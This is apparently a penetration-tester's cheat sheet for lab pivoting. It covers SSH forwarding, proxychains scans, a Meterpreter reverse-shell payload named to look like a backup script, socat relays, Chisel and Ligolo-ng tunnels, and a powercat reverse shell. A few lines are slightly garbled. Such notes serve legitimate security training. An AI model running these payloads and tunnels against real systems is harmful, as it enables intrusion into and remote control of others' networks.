 ```yaml
---
layout: default
---
```


# Dynamic Port Forwarding with SSH and SOCKS Tunneling
# SSH Local Port Forwarding
```bash
# Forward port 3306 from 10.129.202.64 to localhost 1234
$ ssh -L 1234:localhost:3306 ubuntu@10.129.202.64

$ ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```

* * *

# Dynamic Port Forwarding
```bash
$ ssh -D 9050 ubuntu@10.129.202.64
```

```bash
$ tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

```bash
$ proxychains nmap -v -sn 172.16.5.1-200
```

* * *

# Remote/Reverse Port Forwarding with SSH
```bash
$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

```bash
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

```bash
ubuntu@pivot$ python3 -m http.server 8123
```

```powershell
PS > Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

```bash
$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

* * *

# [Socat](https://linux.die.net/man/1/socat) Redirection
## Reverse Shell
```bash
# On pivot machine
$ socat TCP4-LISTEN:<FORWARD_PORT>,fork TCP4:<OUR_IP:OUR_PORT>
```

- Generate reverse msfvenom payload set LHOST has the pivot machine and LPORT FORWARD_PORT
- Set LHOST = 0.0.0.0 on msfconsole and LPORT = <OUR_PORT>

## Bind Shell

- Generate reverse msfvenom payload set LHOST has the pivot machine
- Set LHOST = 0.0.0.0 on msfconsole

* * *

# Port Forwarding with Windows Netsh
```
C:\Windows\system32> netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```

* * *

# SOCKS5 Tunneling with Chisel
`Find PID to kill`
```bash
$ lsof -i:8080 
```


```bash
# Local Machine
$ chisel server --socks5 --reverse`

# Remote machine
./chisel client --fingerprint f9KLbYov18MaH86fvgZhbVMyTAj4LAT6Iv8E8Nlwy0k= 10.10.15.23:8080 R:8081:127.0.0.1:445
```

* * *

# [Ligolo-ng](https://github.com/nicocha30/ligolo-ng)

[Guide](https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740)
[Video](https://www.youtube.com/watch?v=qou7shRlX_s)


```bash
# Proxy (Attack)
$ sudo ip tuntap add user [your_username] mode tun ligolo

$ sudo ip link set ligolo up

$ ./proxy -selfcert
$ ./proxy -autocert
```



```powershell
# Target
> ./agent -connect 10.10.15.184:11601 --ignore-cert
```

```bash
# Attack
session

[Agent : ubuntu@WEB01] » ifconfig

[Agent : ubuntu@WEB01] » start
```

[IPCalculator](https://jodies.de/ipcalc)
```bash
$ sudo ip route add 172.16.4.0/23 dev ligolo
```

## Download and Upload files from and to Target
```bash
# Redirect 8080 on Target machine to our Attack 8080 to upload files to it 
» listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:8080 --tcp

# Redirect 8000 on Target machine to our Attack 8000 to download files from it 
» listener_add --addr 0.0.0.0:8000 --to 127.0.0.1:8000 --tcp
```

## Reverse Shell Target Machine to Attack Machine
```bash
# Attack
[Agent : session] » listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp

$ nc -lnvp 10000
```


```powershell
# Target
https://github.com/besimorhino/powercat/blob/master/powercat.ps1

Copy into powershell

> powercat -c (Internal Pivot Machine Interface) -p 30000 -ep
```

## Double Pivot[https://medium.com/@issam.qsous/mastering-multi-pivot-strategies-unleashing-ligolo-ngs-power-double-triple-and-even-quadruple-dca6b24c404c]
- https://www.hackingarticles.in/a-detailed-guide-on-ligolo-ng/


After access to first machine or pivot, if exists another network we can also pivot to it.

First we need to put agent on pivot machine, for it we need to open a port on our attack machine and add a listener on pivot machine to redirect from port 8080 to our local port 9999.

### Upload Agent to Pivot
> Open port to pass our http server

```bash
# Attack
[Agent : session] » listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:9999 --tcp
``` 

```bash
# Target
Download agent file from (Internal Pivot Machine Interface):8080
```

```bash
# Attack
$ sudo ip tuntap add user [your_username] mode tun ligoloSec

$ sudo ip link set ligoloSec up

$ sudo ip route add 172.16.5.155 dev ligoloSec

[Agent : session] » listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
```

```powershell
# Target
> ./agent -connect (Internal Pivot Machine Interface):11601 --ignore-cert
```

```bash
# Attack
[Agent : session] » start --tun ligoloSec
```


## Forward Ports from Pivot Machine to Attack Machine
```bash
$ sudo ip route add 240.0.0.1/32 dev ligolo
```

